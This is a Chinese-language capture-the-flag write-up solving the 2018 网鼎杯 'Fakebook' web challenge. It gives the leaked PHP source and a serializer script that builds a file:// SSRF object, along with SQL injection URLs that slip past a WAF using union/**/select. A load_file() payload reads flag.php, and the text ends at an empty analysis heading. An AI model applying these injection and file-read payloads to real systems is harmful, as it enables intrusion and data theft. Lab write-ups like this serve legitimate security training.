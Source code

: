 # [网鼎杯 2018]Fakebook  
TAG:PHP SSRF 布尔型盲注 
## 解题过程  
### 预期解  
fakebook捏它了facebook，尝试注册看一下会有什么效果  
![20210127103004](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210127103004.png)  
![20210127103400](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210127103400.png)  
这时在列表中出现了注册的用户  
![20210127103500](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210127103500.png)  
点击详情页面可以发现序列化值  
```data:text/html;base64,PCFET0NUWVBFIEhUTUwgUFVCTElDICItLy9JRVRGLy9EVEQgSFRNTCAyLjAvL0VOIj4KPGh0bWw+PGhlYWQ+Cjx0aXRsZT4zMDEgTW92ZWQgUGVybWFuZW50bHk8L3RpdGxlPgo8L2hlYWQ+PGJvZHk+CjxoMT5Nb3ZlZCBQZXJtYW5lbnRseTwvaDE+CjxwPlRoZSBkb2N1bWVudCBoYXMgbW92ZWQgPGEgaHJlZj0iaHR0cHM6Ly9tcnpoYW5nNzYuY29tLyI+aGVyZTwvYT4uPC9wPgo8aHI+CjxhZGRyZXNzPkFwYWNoZS8yLjQuMjkgKFVidW50dSkgU2VydmVyIGF0IG1yemhhbmc3Ni5jb20gUG9ydCA4MDwvYWRkcmVzcz4KPC9ib2R5PjwvaHRtbD4K```  

![20210127103604](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210127103604.png)  
解码后发现为用户输入的目标网页代码，怀疑存在SSRF漏洞  
![20210127110444](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210127110444.png)  
想要利用SSRF漏洞获取到flag，需要知道页面如何处理用户注册的输入      
使用目录扫描工具发现存在```robots.txt```文件，并存在```uesr.php.bak```备份文件泄露  
![20210127125146](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210127125146.png)  
![20210127120503](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210127120503.png)
```
<?php


class UserInfo
{
    public $name = "";
    public $age = 0;
    public $blog = "";

    public function __construct($name, $age, $blog)
    {
        $this->name = $name;
        $this->age = (int)$age;
        $this->blog = $blog;
    }

    function get($url)
    {
        $ch = curl_init();

        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        $output = curl_exec($ch);
        $httpCode = curl_getinfo($ch, CURLINFO_HTTP_CODE);
        if($httpCode == 404) {
            return 404;
        }
        curl_close($ch);

        return $output;
    }

    public function getBlogContents ()
    {
        return $this->get($this->blog);
    }

    public function isValidBlog ()
    {
        $blog = $this->blog;
        return preg_match("/^(((http(s?))\:\/\/)?)([0-9a-zA-Z\-]+\.)+[a-zA-Z]{2,6}(\:[0-9]+)?(\/\S*)?$/i", $blog);
    }

}
```  
通过阅读代码可知，用户可将序列化字符串传递给页面，页面反序列化后放入```iframe```标签中，形成SSRF攻击  
存在flag.php页面，初步确定flag位置  
![20210127162238](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210127162238.png)  
使用php伪协议file读取flag.php
```
<?php
class UserInfo
{
    public $name = "";
    public $age = 0;
    public $blog = "";
}
$a = new UserInfo();
$a->name = 'mrzhang76';
$a->age = 18;
$a->blog = 'file:///var/www/html/flag.php';
echo serialize($a);
?>
```
秩序化后值:  
```
O:8:"UserInfo":3:{s:4:"name";s:8:"admin888";s:3:"age";i:12;s:4:"blog";s:29:"file:///var/www/html/user.php";}
```  
但是没法让想要的内容插入到iframe标签中，如果有报错注入的话就可以尝试进行信息的嵌套了  
```view.php```存在get参数，通过手工测试发现存在报错注入，使用联合查询尝试镶嵌信息  
![20210127161023](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210127161023.png)  
联合查询被过滤，尝试进行WAF的逃逸  
![20210127170925](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210127170925.png)  
经测试，可以使用```select/**/union```进行WAF绕过  
```/view.php?no=-1 union/**/select 1,database(),3,4--+```  
![20210128222904](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210128222904.png)  
根据报错信息可知，在字段4处需要传入序列化字符串才能被正确解析，为此构造payload：
```
/view.php?no=-1 union/**/select 1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:9:"mrzhang76";s:3:"age";i:18;s:4:"blog";s:29:"file:///var/www/html/flag.php";}'--+
```
  
![20210128230624](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210128230624.png)  
查看页面源代码，点击链接就能获得flag  
 
### 非预期解    
页面处理SQL语句时并未过滤敏感函数，可以直接使用load_file()函数进行文件的读取  
payload:```/view.php?no=0 union/**/select 1,load_file('/var/www/html/flag.php'),3,4```  
![20210129120125](https://raw.githubusercontent.com/mrzhang76/MdPicture/master/20210129120125.png)  
## 题目分析 